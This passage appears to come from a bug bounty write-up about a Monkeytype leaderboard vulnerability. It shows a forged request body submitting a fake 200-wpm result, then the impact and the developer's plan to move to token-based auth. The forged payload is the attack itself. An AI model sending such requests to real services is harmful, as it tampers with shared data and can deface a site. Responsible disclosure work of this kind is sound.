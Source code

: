 ```yaml
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```  

*Shown below, the fake user is now a top leader in words per minuete*  

![](/assets/img/posts/2021-09-01-MONKEYTYPE/leader.png)

**Impact**:  Using this vulnerability, malicious users can overwrite the entire leaderboard with username strings of their choosing, which could be used to deface the website.

**Migitaion**:  On the huntr.dev submission for this issue, the developer stated he is "Looking into moving to a token-based auth system for this endpoint. All the other cloud functions will be moved to the token system after this has been solved since the publicity of this (having the ability to alter public leaderboards) takes priority"  

# Bug Bounty with Huntr.Dev 

# Wrapping Up    



